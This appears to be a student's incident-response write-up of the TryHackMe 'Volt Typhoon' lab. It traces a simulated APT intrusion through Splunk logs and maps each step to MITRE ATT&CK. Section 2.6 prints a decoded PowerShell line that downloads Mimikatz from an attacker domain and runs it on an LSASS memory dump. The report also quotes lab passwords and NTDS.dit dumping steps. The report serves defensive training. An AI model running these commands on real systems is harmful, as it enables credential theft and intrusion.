# Investigation 03: APT Intrusion Analysis — Volt Typhoon

**Room:** TryHackMe — Volt Typhoon &nbsp;|&nbsp; **Role:** SOC Analyst &nbsp;|&nbsp; **Analyst:** Hai Le &nbsp;|&nbsp; **Framework:** NIST SP 800-61 Incident Handling

## Executive Summary

Over a two-week window in March 2024, an actor consistent with the advanced persistent threat group "Volt Typhoon" compromised a privileged self-service portal account through brute force, then used that foothold to seize control of eight additional employee accounts, establish three functionally independent persistence mechanisms, dump the organization's entire Active Directory credential database, stage it for exfiltration disguised as an image file, collect three years of financial records, and establish an outbound command-and-control tunnel to external infrastructure. Every phase was preceded by targeted reconnaissance and followed by deliberate cleanup — this was not opportunistic, scripted behavior, it was a disciplined, multi-stage operation.

The investigation reconstructed the full attack chain across three independent Splunk log sources — a self-service account portal, Windows Management Instrumentation (WMI) command execution, and PowerShell pipeline logs — and confirmed single-actor attribution across all three. Along the way, an initial IP-based attribution approach was tested, found to be methodologically flawed on closer inspection, and corrected using a full baseline sweep — that correction, and the reasoning behind it, is documented as part of the investigation rather than smoothed over. Two evidentiary limits (the source of a memory-dump file, and confirmation of actual data exfiltration) were reached and are stated plainly as limits, not resolved by inference.

**Confirmed impact:** 9 user accounts compromised, 2 IIS-capable servers hosting attacker-planted persistence, 1 full Active Directory credential database dumped, 3 years of financial records collected.

## Tools Used
- Splunk Enterprise (Search & Reporting) — SPL query development across `adss`, `wmic`, and `powershell` sourcetypes
- CyberChef — Base64 decoding of an obfuscated PowerShell payload
- Open-source research on Volt Typhoon's known tactics, techniques, and procedures

## Timeline

| Date (2024) | Event |
|---|---|
| 3/17 – 3/21 | Reconnaissance: WMIC discovery commands and account-unlock probing across multiple identities |
| 3/20 | Scheduled task `"Backup"` registered — host-level persistence established ahead of the main operation |
| 3/24, 11:08–11:10 AM | `dean-admin` compromised via brute-forced account unlock; password changed |
| 3/24 | `voltyp-admin` created; 8 additional accounts hijacked across sales, engineering, and executive departments |
| 3/25, 9:30 PM | Disk space reconnaissance on two servers |
| 3/25, 10:44 PM | Active Directory database (`NTDS.dit`) dumped via `ntdsutil` |
| 3/25 – 3/26 | Dump staged on a public web server, archived, password-protected, and disguised as `cl64.gif` |
| 3/26, 9:53 PM | Mimikatz downloaded from attacker-controlled domain; LSASS memory dump parsed for credentials |
| 3/27 | Registry reconnaissance for remote-access tooling; saved PuTTY sessions harvested |
| 3/27, 11:51–11:52 PM | Three years of financial records collected and staged locally |
| 3/28, 9:19 PM | Disguised webshell payload decoded from a fake `ntuser.ini` file via `certutil` |
| 3/29, 7:29 PM | Firewall and port-proxy configuration reviewed |
| 3/29, 7:47 PM | Webshell copied to a second server's web root |
| 3/29, 10:04 PM | Four Windows Event Logs cleared |
| 3/29, 11:13 PM | Command-and-control tunnel established to external IP `10.2.30.1` |
| 3/29, 11:56 PM | Tunnel torn down |

---

## 1. Preparation

The environment provided ~two weeks of log data across three Splunk sourcetypes: `adss` (an Active Directory self-service portal used for account unlocks, password resets, and MFA/security-question management), `wmic` (Windows Management Instrumentation command execution), and `powershell` (PowerShell pipeline execution, logged as Event ID 800). No network, DNS, firewall, proxy, or endpoint/EDR telemetry was available — a limitation carried through the rest of this report rather than papered over. No prior alert or IOC was provided as a starting point; the investigation began from a general SOC tasking to retrace the attacker's steps against a suspected Volt Typhoon-style intrusion.

## 2. Detection & Analysis

### 2.1 Initial Reconnaissance & Environment Probing
**MITRE ATT&CK:** `T1082` System Information Discovery, `T1016` System Network Configuration Discovery

The earliest attacker activity found was not in the account-management logs at all — it was a set of low-volume WMIC discovery commands (CPU, BIOS, OS version, network configuration) executed under multiple legitimate employee identities starting **3/17, 1:58 PM**, three days before any account-management activity began. This was paired with a small amount of account-unlock probing against three accounts (one success, one failure, one success) between 3/20 and 3/21 — read together, this looks like the attacker testing which accounts and hosts they could interact with before committing to the main operation.


### 2.2 Brute-Force Initial Access
**MITRE ATT&CK:** `T1110` Brute Force

Following the account-management thread from the self-service portal, four consecutive failed unlock attempts against the privileged `dean-admin` account occurred within a three-minute window on 3/24, immediately followed by a successful unlock and password change at 11:10:22 AM. This is the clearest single indicator of forced entry in the dataset — a real employee does not fail to unlock their own account four times in three minutes and then succeed on the fifth attempt via the same interface.



A password-change attempt on `dean-admin` failed five days later, on 3/29. Later evidence (2.5) shows the account had already been reset by the attacker roughly 23 hours before that failed attempt — consistent with the legitimate account owner or IT staff attempting to regain access and being locked out.

### 2.3 Privilege Consolidation & Lateral Account Takeover
**MITRE ATT&CK:** `T1136.001` Create Account: Local Account, `T1098` Account Manipulation, `T1556.006` Modify Authentication Process: MFA

Within five minutes of compromising `dean-admin`, the attacker created a new privileged account, **`voltyp-admin`**, fully enrolled with a password, security questions, and MFA — a durable admin identity independent of any account that might later be remediated. Immediately after, the attacker began systematically hijacking eight *pre-existing* accounts across sales, engineering, and executive departments — unlocking, resetting passwords, and re-enrolling MFA/security questions on each, rather than creating new ones.




Checking whether any of the eight hijacked accounts had themselves been attacker-created (rather than pre-existing) turned up an important distinction: a full search for every `Enrollment` event in the dataset returned only four results — `voltyp-admin` and three accounts (`bill-exec`, `sophie-engineering`, `claire-exec`) that had been legitimately onboarded by IT only hours before the attack began.



Two persistence techniques are running in parallel here, and it's worth separating them explicitly rather than treating all nine accounts as one flat list: **creating** `voltyp-admin` is a single, relatively loud action; **hijacking** eight pre-existing accounts is quieter, blends into normal self-service activity, and — notably — specifically targeted accounts provisioned within hours of the attack, which are more likely to have default settings and less user familiarity with their own account state.

### 2.4 A False Lead, Caught and Corrected — From Volume to Action
**MITRE ATT&CK:** `T1047` Windows Management Instrumentation

Pivoting to the source IP tied to `dean-admin`'s compromise (`192.168.1.134`), that single address was found touching every account in the campaign across five backend nodes — initially read as confirmation of a single-actor campaign. Checking three additional IPs that had performed the legitimate account enrollments (`.112`, `.121`, `.151`) for further activity ruled them out as ordinary IT/help-desk infrastructure — their activity spanned well beyond the attack window, included accounts outside the victim set, and contained routine failures consistent with normal support work.



Continuing to check IPs one at a time surfaced three more (`.123`, `.177`, `.187`) with the same WMIC-plus-ADSS activity pattern, each independently discovered by inspecting hosts with high event counts.


At four flagged IPs, running a full environment-wide baseline (`index=* | stats count by ip_address`, ~2,046 events across ~100 distinct hosts) showed the actual distribution: a smooth, gradual decline in event counts across nearly every internal IP, with no outlier cluster. The four "attacker" IPs were simply the top four by raw count in what is almost certainly organization-wide baseline telemetry from a routine inventory or asset-management process — not evidence of a four-host attacker footprint.



This matters enough to state directly: **volume-based IP attribution was the wrong methodology here**, and the fix was to stop counting events and start filtering by *action type*. Nearly every WMIC event across all ~100 hosts was a read-only `get` query, consistent with routine scanning. No legitimate inventory tool issues a `process call create` — an actual write/execute action. Filtering for that specific action across the full dataset, rather than the four previously-flagged IPs, is what actually surfaced the attack chain below.

### 2.5 Full Attack Chain — Credential Dump & Exfiltration Staging
**MITRE ATT&CK:** `T1003.003` OS Credential Dumping: NTDS, `T1074.002` Data Staged: Remote Data Staging, `T1560.001` Archive via Utility, `T1036.008` Masquerade File Type, `T1070.004` File Deletion

Filtering the full dataset for `wmic ... process call create` events (21 total, regardless of source IP) split cleanly into two groups: roughly fifteen hosts each running a single `calc.exe` or `notepad.exe` test launch — a broad, shallow "can I execute code here" sweep — and one continuous, escalating sequence, entirely under the `dean-admin` identity.



That sequence, beginning 74 minutes after a disk-space check across two servers, is the core of this intrusion:

1. **3/25, 10:44 PM** — `ntdsutil` creates a full offline export of the Active Directory database (`NTDS.dit`) — every password hash in the domain, not just the nine already-compromised accounts.
2. **3/25, 10:45 PM** — the dump is copied to `webserver-01`'s public web root.
3. **3/25, 11:47 PM** — the file is compressed into a password-protected, split archive, `cisco-up.7z`, using the password `d5ag0nm@5t3r` (leetspeak for "Dragonmaster") — a second plaintext, human-memorable secret exposed via command-line logging.




4. **3/26, 2:02 AM** — the archive is renamed to `cl64.gif`, disguised as an image file.
5. **3/26, 2:04 AM** — the working temp directory is deleted.

This is a deliberate, four-step staging sequence, not an opportunistic grab — checking free space first, exporting the database, archiving it under password protection, and disguising the result as an innocuous file type, in that order.

### 2.6 Secondary Credential Access — Mimikatz and an LSASS Memory Dump
**MITRE ATT&CK:** `T1027.010` Command Obfuscation, `T1105` Ingress Tool Transfer, `T1003.001` OS Credential Dumping: LSASS Memory

A Base64-encoded PowerShell command, decoded via CyberChef, downloaded Mimikatz from an attacker-controlled domain and used it against an existing LSASS memory dump:



```
Invoke-WebRequest -Uri "http://voltyp.com/3/tlz/mimikatz.exe" -OutFile "C:\Temp\db2\mimikatz.exe";
Start-Process -FilePath "C:\Temp\db2\mimikatz.exe" -ArgumentList @("sekurlsa::minidump lsass.dmp", "exit") -NoNewWindow -Wait
```

The full raw event confirms this ran at **3/26, 9:53:41 PM** under `UserId=CTRL-ACC\dean-admin`, the day after the NTDS.dit dump — the same actor, continuing the operation.



`voltyp.com` is the only external *domain* observed in this investigation, distinct from the raw external IP seen later (2.10). Parsing an existing LSASS dump for cached credentials is the most likely source of the plaintext `dean-admin` password that later appears in the command-and-control setup (2.10) — connecting these into one causal chain rather than two unrelated events.

Follow-up searches for `lsass.dmp`, `comsvcs.dll`, `procdump`, `MiniDump`, and `voltyp.com` returned no further hits — the event that actually created the LSASS dump file was not found in available telemetry. The most likely explanation is a GUI-based action (e.g., Task Manager's "Create dump file" option), which leaves no command-line footprint and would not appear in any of the three log sources available here. This is stated as an evidentiary limit, not resolved by assumption.

### 2.7 Persistence — Scheduled Task and Remote-Access Reconnaissance
**MITRE ATT&CK:** `T1053.005` Scheduled Task, `T1012` Query Registry, `T1518` Software Discovery

Two related but distinct actions surfaced in a search for `reg` command-line activity. First, a scheduled task named **`"Backup"`** was registered on 3/20 — before the main account-takeover operation began — a host-level persistence mechanism disguised as routine maintenance, and one that survives password resets or account remediation entirely.

Second, on 3/27, the attacker queried the registry for existing OpenSSH and RealVNC installations, then — more pointedly — pulled `dean-admin`'s own saved PuTTY session list. That last query is worth calling out specifically: it's an efficient way to harvest a list of additional lateral-movement targets directly from a legitimate user's own connection history, rather than guessing at what else exists in the environment.



### 2.8 Webshell Creation and Lateral Deployment
**MITRE ATT&CK:** `T1140` Deobfuscate/Decode Files or Information, `T1036` Masquerading, `T1505.003` Server Software Component: Web Shell, `T1021.002` Remote Services: SMB/Windows Admin Shares

On 3/28, `certutil` — a legitimate Windows certificate utility frequently abused as a living-off-the-land decoding tool — was used to decode a file disguised as `ntuser.ini` (a name chosen to look like an ordinary Windows profile file) into `iisstart.aspx`, IIS's default placeholder-page filename. This is the actual creation of the webshell payload: the attacker had smuggled an encoded file onto the host under an innocuous name and reconstituted it locally rather than dropping an obviously malicious file directly.


The following day, that file was copied via an administrative SMB share to a *second* server's web root, renamed again to `AuditReport.jspx`:



Two things are worth flagging plainly rather than smoothed over: this places attacker footholds on two separate IIS-capable servers (`webserver-01` from 2.5, and now `server-02`), meaningfully widening the compromise's scope; and the destination filename's extension (`.jspx`) doesn't match the source file's (`.aspx`) — noted here as an open observation rather than resolved by guesswork, since confirming it would require knowing whether `server-02` runs a Java-capable web component in addition to IIS.

A webshell is a materially different persistence mechanism from the account-based and scheduled-task mechanisms already documented: it provides HTTP-based remote code execution that survives password resets, MFA changes, and even removal of the scheduled task, as long as the file itself remains undiscovered.

### 2.9 Collection — Financial Data Theft
**MITRE ATT&CK:** `T1005` Data from Local System, `T1074.001` Local Data Staging

Late on 3/27, three years of financial records (`FinanceBackup\2022.csv` through `2024.csv`) were copied to a disguised local directory, `faudit` — shorthand for "financial audit," chosen for the same reason as `cisco-up.7z` and `cl64.gif` before it: to look like a legitimate business process rather than attacker staging.



This is a distinct objective from the credential theft in 2.5 — it targets business-sensitive data directly rather than access-enabling data. A follow-up check confirmed no further activity referencing `faudit` beyond its creation and the three copies: unlike the NTDS.dit archive, this data was never moved toward a public-facing exfiltration point. The credential-theft objective reached active exfiltration staging; the financial-data objective reached collection only. That distinction is worth keeping explicit rather than treating both as equally "exfiltrated."

### 2.10 Command and Control
**MITRE ATT&CK:** `T1016` System Network Configuration Discovery, `T1090` Proxy, `T1572` Protocol Tunneling

Roughly 3 hours and 44 minutes before establishing a tunnel, the attacker reviewed the current firewall configuration and existing port-proxy rules — consistent with the same "check before you act" pattern seen ahead of the credential dump (2.5) and the log-clearing action (2.11).

At **3/29, 11:13 PM**, using `dean-admin`'s credentials — exposed in plaintext in the command line as `uNcr4cK4b1e` — the attacker configured a `netsh` port-forwarding rule tunneling local traffic to **`10.2.30.1`**, the only external IP address observed anywhere in this investigation. The rule was manually removed 43 minutes later.

